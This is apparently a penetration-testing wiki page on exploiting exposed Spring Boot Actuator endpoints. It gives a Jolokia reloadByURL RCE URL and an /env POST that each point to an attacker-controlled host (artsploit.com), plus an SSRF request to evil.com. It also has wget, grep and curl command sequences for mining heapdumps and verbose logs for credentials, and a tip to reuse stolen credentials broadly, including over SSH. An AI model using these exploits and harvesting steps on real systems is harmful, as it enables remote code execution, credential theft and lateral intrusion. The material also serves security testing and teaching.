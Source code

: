 # Spring Actuators


## **Spring Auth Bypass**

![[../../images/image (927).png|]]


**From** [[https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png|**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**]]

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

- Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
- Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  - `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
- In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   - The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   - The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   - Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

   - If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   - Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   - Example exploit POST request:

     ```
     POST /env HTTP/1.1
     Host: 127.0.0.1:8090
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 65

     eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
     ```

3. **Other Useful Settings**:
   - Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

- A comprehensive list of default actuators can be found [[https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt|here]].
- The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1.  **Env + H2 RCE**:
    - Details on exploiting the combination of `/env` endpoint and H2 database can be found [[https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database|here]].

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   - The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   - Example exploit request:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
```



## HeapDump secrets mining (credentials, tokens, internal URLs)

If `/actuator/heapdump` is exposed, you can usually retrieve a full JVM heap snapshot that frequently contains live secrets (DB creds, API keys, Basic-Auth, internal service URLs, Spring property maps, etc.).

- Download and quick triage:
  ```bash
  wget http://target/actuator/heapdump -O heapdump
  # Quick wins: look for HTTP auth and JDBC
  strings -a heapdump | grep -nE 'Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client'
  # Decode any Basic credentials you find
  printf %s 'RXhhbXBsZUJhc2U2NEhlcmU=' | base64 -d
  ```

- Deeper analysis with VisualVM and OQL:
  - Open heapdump in VisualVM, inspect instances of `java.lang.String` or run OQL to hunt secrets:
    ```
    select s.toString() 
    from java.lang.String s 
    where /Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client|OriginTrackedMapPropertySource/i.test(s.toString())
    ```

- Automated extraction with JDumpSpider:
  ```bash
  java -jar JDumpSpider-*.jar heapdump
  ```
  Typical high-value findings:
  - Spring `DataSourceProperties` / `HikariDataSource` objects exposing `url`, `username`, `password`.
  - `OriginTrackedMapPropertySource` entries revealing `management.endpoints.web.exposure.include`, service ports, and embedded Basic-Auth in URLs (e.g., Eureka `defaultZone`).
  - Plain HTTP request/response fragments including `Authorization: Basic ...` captured in memory.

Tips:
- Use a Spring-focused wordlist to discover actuator endpoints quickly (e.g., SecLists spring-boot.txt) and always check if `/actuator/logfile`, `/actuator/httpexchanges`, `/actuator/env`, and `/actuator/configprops` are also exposed.
- Credentials from heapdump often work for adjacent services and sometimes for system users (SSH), so try them broadly.

## Abusing Actuator loggers/logging to capture credentials

If `management.endpoints.web.exposure.include` allows it and `/actuator/loggers` is exposed, you can dynamically increase log levels to DEBUG/TRACE for packages that handle authentication and request processing. Combined with readable logs (via `/actuator/logfile` or known log paths), this can leak credentials submitted during login flows (e.g., Basic-Auth headers or form parameters).

- Enumerate and crank up sensitive loggers:
  ```bash
  # List available loggers
  curl -s http://target/actuator/loggers | jq .

  # Enable very verbose logs for security/web stacks (adjust as needed)
  curl -s -X POST http://target/actuator/loggers/org.springframework.security \
       -H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
  curl -s -X POST http://target/actuator/loggers/org.springframework.web \
       -H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
  curl -s -X POST http://target/actuator/loggers/org.springframework.cloud.gateway \
       -H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
  ```

- Find where logs are written and harvest:
  ```bash
  # If exposed, read from Actuator directly
  curl -s http://target/actuator/logfile | strings | grep -nE 'Authorization:|username=|password='

  # Otherwise, query env/config to locate file path
  curl -s http://target/actuator/env | jq '.propertySources[].properties | to_entries[] | select(.key|test("^logging\\.(file|path)"))'
  ```

- Trigger login/authentication traffic and parse the log for creds. In microservice setups with a gateway fronting auth, enabling TRACE for gateway/security packages often makes headers and form bodies visible. Some environments even generate synthetic login traffic periodically, making harvesting trivial once logging is verbose.

Notes:
- Reset log levels when done: `POST /actuator/loggers/<logger>` with `{ "configuredLevel": null }`.
- If `/actuator/httpexchanges` is exposed, it can also surface recent request metadata that may include sensitive headers.

## References

- [[https://www.wiz.io/blog/spring-boot-actuator-misconfigurations|Exploring Spring Boot Actuator Misconfigurations (Wiz)]]
- [[https://visualvm.github.io/|VisualVM]]
- [[https://github.com/whwlsfb/JDumpSpider|JDumpSpider]]
- [[https://0xdf.gitlab.io/2025/08/30/htb-eureka.html|0xdf – HTB Eureka (Actuator heapdump to creds, Gateway logging abuse)]]

